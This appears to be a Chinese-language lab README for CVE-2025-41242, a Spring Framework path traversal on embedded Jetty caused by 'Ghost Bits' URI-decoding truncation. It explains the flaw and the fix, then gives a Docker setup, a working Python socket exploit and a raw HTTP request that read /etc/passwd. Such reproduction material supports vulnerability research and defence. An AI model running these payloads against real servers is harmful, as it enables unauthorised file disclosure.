

# Spring框架因Jetty URI解析不一致导致的路径穿越漏洞（CVE-2025-41242）

Spring框架是Java生态中应用最广泛的应用框架之一，Jetty是Spring Boot应用常用的内嵌HTTP服务器。CVE-2025-41242是一个由Spring框架与Jetty之间**URI解码不一致**所导致的路径穿越漏洞。

漏洞根源是Spring的`StringUtils.uriDecode`中的"Ghost Bits"缺陷：解码器遇到非`%xy`字符时，会直接调用`ByteArrayOutputStream.write(int)`，而该方法只保留16位Java`char`的**低8位**。结果就是某些中文字符在解码过程中被悄悄"炼"成ASCII字节，例如`阮(U+962E)→0x2E='.'`、`严(U+4E25)→0x25='%'`、`灵(U+7075)→0x75='u'`、`丰(U+4E30)→0x30='0'`、`甲(U+7532)→0x32='2'`、`来(U+6765)→0x65='e'`，于是攻击者构造的字符串`阮严灵丰丰甲来`被静默地转换成ASCII字符串`.%u002e`。这串结果在Spring的`isInvalidPath`/`isInvalidEncodedPath`检查中既不含字面量`../`，标准的`URLDecoder`又不识别非标准的`%uXXXX`编码，所有安全检查全部放行。但路径随后通过`ServletContextResource`交给底层Jetty的`PathResource#resolve`时，Jetty在`URIUtil.encodePathSafeEncoding`中却主动把`%u002e`当作Unicode解码为`.`，使`/.%u002e/`在文件系统层面变成`/../`，从而完成跨目录读取，最终读取`/etc/passwd`等任意文件。一句话：Spring看到的是"无害的中文/Unicode"，Jetty解释的却是"致命的`../`"。官方修复方式是改用`StringBuilder`逐字符`append`，从根源上消除高位丢失。

该漏洞影响Spring Framework 5.3.45、6.1.23、6.2.13之前的版本，且应用部署在内嵌Jetty之上时触发。本环境基于Spring Boot 3.2.4 +默认`spring-boot-starter-jetty`演示该漏洞。

参考链接：

- <https://i.blackhat.com/Asia-26/Presentations/Asia-26-Bai-Cast-Attack-Ghost-Bits-4.23.pdf>
- <https://github.com/spring-projects/spring-framework/pull/34673>

## 环境搭建

执行如下命令启动一个Spring Boot 3.2.4 + 内嵌Jetty环境：

```
docker compose up -d
```

容器首次启动会下载Maven依赖并编译源码，需要稍等片刻。服务就绪后，访问`http://your-ip:8080/`即可看到一个"Hello World"页面。

## 漏洞复现

要触发这个漏洞，请求必须以**`阮严灵丰丰甲来`的原始UTF-8字节**直送服务端，不能预先做percent-encoding。这是因为Ghost Bits仅在Spring的`StringUtils.uriDecode`处理一段已经包含16位`char`的字符串时才会发生——如果中文字符在传输前被编码成`%E9%98%AE`这样的ASCII三元组，解码器走的是另一条不含截断逻辑的路径，漏洞无法触发。还有第二个细节：目标文件名中至少要有一个字符做percent-encoding（例如把`passwd`写成`passw%64`），否则Spring的路径匹配会提前短路，根本不会调用到那段有问题的解码逻辑。

这意味着浏览器、`curl`、Burp Suite以及绝大多数代理工具都**无法**直接用来复现该漏洞——它们在发送请求前会对URL路径做规范化处理，把高位Unicode字符自动编码为ASCII（变成`%E9%98%AE...`或`.%u002e`），从而破坏漏洞触发条件。要复现，必须使用允许逐字节构造并发送原始HTTP请求的工具。

**方式一：Python socket脚本。** 下面的脚本会把`阮严灵丰丰甲来`的原始UTF-8字节直接写入socket，并打印响应：

```python
import socket

target = ('your-ip', 8080)
seg = '阮严灵丰丰甲来'.encode('utf-8')
path = b'/' + (seg + b'/') * 7 + b'etc/passw%64'
req = b'GET ' + path + b' HTTP/1.1\r\nHost: %s:%d\r\nConnection: close\r\n\r\n' % (target[0].encode(), target[1])

s = socket.create_connection(target)
s.sendall(req)
data = b''
while True:
    chunk = s.recv(4096)
    if not chunk:
        break
    data += chunk
s.close()

print(data.decode('utf-8', errors='replace'))
```

将其保存为`exploit.py`，执行`python3 exploit.py`即可看到`/etc/passwd`的内容：



**方式二：Yakit原始数据包。** Yakit的HTTP Fuzzer会原样发送请求行，不会对高位字符做规范化。在请求面板中粘贴如下数据包并发送：

```
GET /阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/etc/passw%64 HTTP/1.1
Host: your-ip:8080
Connection: close


```
